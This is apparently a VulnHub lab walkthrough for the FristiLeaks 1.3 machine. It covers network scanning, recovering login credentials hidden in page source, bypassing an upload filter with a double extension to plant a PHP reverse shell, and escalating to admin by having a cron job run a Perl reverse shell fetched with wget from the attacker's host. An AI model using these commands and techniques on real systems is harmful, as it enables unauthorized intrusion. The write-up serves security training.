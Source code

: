 # FRISTILEAKS: 1.3

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-05 01:18 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00018s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.135
Host is up (0.00056s latency).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.127.254
Host is up (0.00049s latency).
MAC Address: 00:50:56:F4:78:0D (VMware)
Nmap scan report for 192.168.127.128
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 15.07 seconds
```

The IP address is `192.168.127.135`, let scan it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.135 -oN nmapresult

Nmap scan report for 192.168.127.135
Host is up (0.00025s latency).
Not shown: 989 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.12 seconds
```
The only open port here is `80`, from the nmap report we see `robots.txt` has 3 routes

navigating to these directories shows the same content :

![page](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2d1e90c6-1d88-4740-8469-f6c61cdbe270)

i started fuzzing the application with different methods but found nothing except `/images/` and `/icons/` directory that had nothing intersting.

back to the main page saying "KEEP CALM AND DRINK FRISTI", the word `fristi` was weird for me so tried navigating to `fristi` :

![fristipage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/86780385-6f4b-4857-9104-30b6d7043aea)

yes, we found a login page, i tried some sql injection payloads but did not work.

viewing the page source :

![pagesource](https://github.com/Git-K3rnel/VulnHub/assets/127470407/8cc548d1-f8b8-434e-aa7d-2e33b2f66633)

the comment here is by `eezeepz`, maybe a username ? write it down.

scrolling down a little shows base64 data image :


![datablob](https://github.com/Git-K3rnel/VulnHub/assets/127470407/606d6e18-a4a9-46d1-984b-e566391651c3)

convert it back to image using an online service or browser itself :

![kekek](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bfffc291-b028-4751-9678-e301cc6def0d)

using `eezeepz` as user and the string in the picture `keKkeKKeKKeKkEkkEk` you can login to website :

![login](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5b34ac61-581a-42ee-b6bf-0c18c48db81a)

## 3.Gaining Shell

here we see an upload functionality that only allows uploading `png,jpg,gif` files, after trying afew methods to bypass it

i found that it checks only the last extention of a file, for example `test.php.png` is acceptable. so i uploaded a php reverse shell

navigated to `/uploads/test.php.png` directory, with a listener on my system i got the shell :

![shell1](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ed033369-cd57-468d-93b6-d6dfabdba2e7)

in `/var/www` there is a file `notes.txt` :
```bash
bash-4.1$ cat notes.txt
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```

as jerry says here the home dir of user eezeepz is a mess.

navigate to `/home` directory and there are 3 users here and we can only access the eezeepz directory

in this directory there is a `notes.txt` again :

```bash
bash-4.1$ cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```
as it seems in this note admin provides us afew capabilities :
- we can run all binaries in `/usr/bin/`
- we can run afew binaries in `/home/admin/`
- we should create a file called `runthis` in `/tmp/` and put our commands into this file
- the "runthis" file will be executed with admin privileges every one minute
- the result will be saved in `cronresult` file

so what is better than another reverse shell ?

## Privilege Escalation to admin user

i prepared another reverse shell, this time a perl reverse shell in my kali machine

because `perl` binary exist in `/usr/bin` directory and we can execute it :

```bash
root@kali: ls
revshell.pl
root@kali: python -m http.server 80
bash-4.1$ cd /tmp
bash-4.1$ wget http://192.168.127.128/revshell.pl
bash-4.1$ echo '/usr/bin/perl /tmp/revshell.pl' > runthis
```

and yes we got the shell with admin privileges :


![shell2](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1c6d7bc4-3db4-4e55-82d6-3cc29d66cabf)










